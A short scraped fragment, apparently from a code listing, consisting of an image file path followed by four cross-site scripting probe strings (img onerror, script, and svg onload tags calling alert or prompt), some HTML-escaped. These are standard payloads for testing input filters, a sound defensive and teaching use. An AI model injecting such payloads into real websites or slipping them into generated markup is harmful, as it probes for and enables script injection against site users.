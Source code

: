# &lt;img src=x onerror=alert(1)
"&lt;script>alert('test')</script>"
&lt;img/src=x/on-error="alert(1)</script>
"><svg/onload=prompt(0)>
